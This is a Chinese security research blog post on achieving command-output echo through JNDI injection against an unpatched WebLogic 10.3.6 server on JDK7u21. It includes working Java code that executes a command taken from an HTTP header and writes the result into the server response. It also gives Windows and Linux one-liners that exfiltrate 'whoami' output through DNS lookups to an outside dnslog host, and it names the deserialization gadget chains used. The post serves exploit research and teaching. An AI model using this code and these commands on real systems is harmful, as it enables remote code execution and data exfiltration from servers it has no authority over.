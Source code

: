 
# JNDI实现回显研究


                                阅读量   
                                **634469**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](./img/200892/t018a28111dcc29fe4f.png)](./img/200892/t018a28111dcc29fe4f.png)



## 1、前言

最近出的回显文章内容毕竟多，linux下反序列化通杀回显，tomcat拿`org.apache.catalina.core.ApplicationDispatcher`类的response和request实现回显。之前就想过jndi注入能否实现回显，先看一遍jndi原理。

> <ol>
- 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控；
- 攻击者控制URI参数为恶意的RMI服务地址，如：rmi://hacker_rmi_server//name；
- 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；
- 目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；
- 攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果；
</ol>

当时的想法是，如果获取web服务器回显类，通过这种方式实现回显，必须是在web服务器运行时注入代码，也就是在web环境下。但是jndi是通过远端去加载恶意类，应该是不在web环境下。后来给清水川崎交流的时候，他说jndi也能实现回显，遂就有了下文。



## 2、环境构建

首先，搭建一个有jndi注入的web服务器，我这里选择weblogic 10.3.6版本，no patch，jdk版本选择Jdk7u21。用cve-2017-10271中`com.sun.rowset.JdbcRowSetImpl`这个payload打一发，本地先测成功。

[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t018702f953063cf7ec.png)

接着想法是`JNDI Naming Reference`的限制太多了，恶意类又难生成，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化，这样利用ldap注入代码也方便点，下一步去找weblogic线程类，输入输出类。lufei表哥已经写过文章了：[https://xz.aliyun.com/t/5299#toc-9](https://xz.aliyun.com/t/5299#toc-9)，这就省了很多事。直接用他的代码：

```
String lfcmd = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getHeader("lfcmd");
String[] cmds = new String[]{"cmd.exe", "/c", lfcmd};
java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\a");
String output = s.hasNext() ? s.next() : "";
weblogic.servlet.internal.ServletResponseImpl response = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getResponse();
weblogic.servlet.internal.ServletOutputStreamImpl outputStream = response.getServletOutputStream();
outputStream.writeStream(new weblogic.xml.util.StringInputStream(output));
outputStream.flush();
response.getWriter().write("");
```

接着为了让服务器能够注入代码，选一条gadget，这里选择Jdk7u21这条链。怎么让gadget不执行命令，而是执行java代码看这篇文章：[https://blog.csdn.net/fnmsd/article/details/79534877](https://blog.csdn.net/fnmsd/article/details/79534877)

[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015569e3619ca3f728.png)

拿到gadget 进行base64编码，拷贝到`HackerLDAPRefServer`类这里。

[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0173b775a14ffaf056.png)

开启HackerLDAPRefServer，看一下回显效果，这里已经收到请求，回显也能够回显，看来是之前的猜想错了，还是rmi理解的不够深刻。

[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c7eb7c596d87f442.png)



在重新理解rmi客户端和服务器相互调用时，看到6时，才反应过来，即使是远程加载恶意类，也相当于是本地执行，当然也就能拿到weblogic回显的线程类。



[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0153036acc592f4301.png)

具体调试时，可以发现在触发jndi注入后，继续触发反序列化操作



[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d2aaa1513436e14b.png)

下图就是执行代码过程，之前犯的错误就是上图，将jndi注入和反序列化操作割裂开了，实际是按顺序触发的。



[![](./img/200892/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014f1303cef4e3fddd.png)

## 3、jndi其他回显方法

最后提一嘴，jndi能出外网回显的利用总结，能弹shell那就不用说啥了：

> <p>1、 向系统可写web目录写文件/js文件写命令，在读取这个文件实现回显。（获取网站绝对路径，可以读.bash_hitory，服务器默认配置文件，框架自带的log，报错获得）<br>
2、通过dnslog拿到回显内容：<br>
windows:<br><code>第一步、whoami&gt;D:/temp&amp;&amp;certutil -encode D:/temp D:/temp2&amp;&amp;findstr /L /V ""CERTIFICATE"" D:/temp2&gt;D:/temp3<br>
第二步、set /p MYVAR=&lt; D:/temp3 &amp;&amp; set FINAL=%MYVAR%.xxxx.ceye.io &amp;&amp; ping %FINAL%<br>
第三步、del  "D:/temp" "D:/temp2" "D:/temp3"</code><br>
Linux:<br>
反引号命令执行<br>
curl `whoami`.xxx.ceye.io</p>



## 4、总结

实际，有了这个思路，**jndi也能够回显**（**划重点，面试官问的时候记住了**），可以结合很多web服务器搞，比如tomcat，Spring，Spring-Boot框架。虽然jndi需要出网，就显的很鸡肋了，但这也算是一种思路，毕竟知识面决定攻击面，知识链决定攻击深度，多掌握一个点，说不定就用上了。最后注入代码gadget有`ROME、CommonsBeanutils1、CommonsCollections2、CommonsCollections3、CommonsCollections4、Spring1、Spring2、Jdk7u21、MozillaRhino1、JBossInterceptors1、JavassistWeld1、JSON1、Hibernate1`，在Jdk7u21 gadget注入代码，javassist修改字节码时，添加泛型会出现报错，解决方法参考下面链接。（题外话，这个月在安全客连投了5篇，算是上一年研究的一点总结，现在手里没什么干货了，继续潜心修炼去了，遇到有意思的点，在发出来给大家分享。

### <a class="reference-link" name="%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5%EF%BC%9A"></a>参考链接：

[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo)<br>[https://kingx.me/Exploit-Java-Deserialization-with-RMI.html](https://kingx.me/Exploit-Java-Deserialization-with-RMI.html)<br>[https://xz.aliyun.com/t/7348](https://xz.aliyun.com/t/7348)<br>[https://blog.csdn.net/kakaweb/article/details/84592472](https://blog.csdn.net/kakaweb/article/details/84592472)
